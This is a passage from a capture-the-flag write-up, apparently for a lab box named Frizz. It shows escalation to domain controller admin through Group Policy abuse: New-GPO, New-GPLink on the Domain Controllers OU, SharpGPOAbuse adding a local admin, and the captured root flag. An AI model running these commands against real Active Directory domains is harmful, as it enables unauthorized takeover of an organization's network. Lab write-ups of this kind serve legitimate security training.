[*] Downloaded 12.22 KiB of 12.22 KiB (100.0%): 20250315203026_BloodHound.zip -> /home/kali/20250315203026_BloodHound.zip
[*] Completed  : 20250315203026_BloodHound.zip -> /home/kali/20250315203026_BloodHound.zip
```

### Investigation using BloodHound

With `BloodHound` we found out that `M.SchoolBus` was member of the `DESKTOP ADMINS group`.



Which for themselves was a member of `GROUP POLICY CREATOR` and this made us thinking of a potential `Group Policy Object (GPO) abuse` to `escalate` our `privileges` to `SYSTEM`.



## Privilege Escalation to SYSTEM

### Group Policy Object (GPO) Abuse

To achieve the `privilege escalation` to `SYSTEM` on the box we used `SharpGPOAbuse` thankfully provided as a `pre-compiled binary` by the wonderful `Flangvik`. Shout-out to you my friend for being awesome!

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpGPOAbuse.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpGPOAbuse.exe)

We created a new `Group Policy Object (GPO)`; linked it to the `Local Administrators group` and added the user `M.SchoolBus` to it.

```c
*Evil-WinRM* PS C:\temp> New-GPO -Name "foobar"


DisplayName      : foobar
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : e6554130-226e-40ec-bfa4-dc6b09c65b4f
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 3/15/2025 11:26:35 PM
ModificationTime : 3/15/2025 11:26:35 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

```c
*Evil-WinRM* PS C:\temp> New-GPLink -Name "foobar" -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes


GpoId       : e6554130-226e-40ec-bfa4-dc6b09c65b4f
DisplayName : foobar
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

```c
*Evil-WinRM* PS C:\temp> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "foobar"
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "foobar" is: {E6554130-226E-40EC-BFA4-DC6B09C65B4F}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{E6554130-226E-40EC-BFA4-DC6B09C65B4F}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

After a quick update of the `Group Policies` and a `re-login` we were `local administrator` on the box.

```c
*Evil-WinRM* PS C:\temp> gpupdate /force
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

```c
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ==============================================
frizz\m.schoolbus S-1-5-21-2386970044-1145388522-2932701813-1106


GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e8c2c9daba84f571e715b695790e157f
```
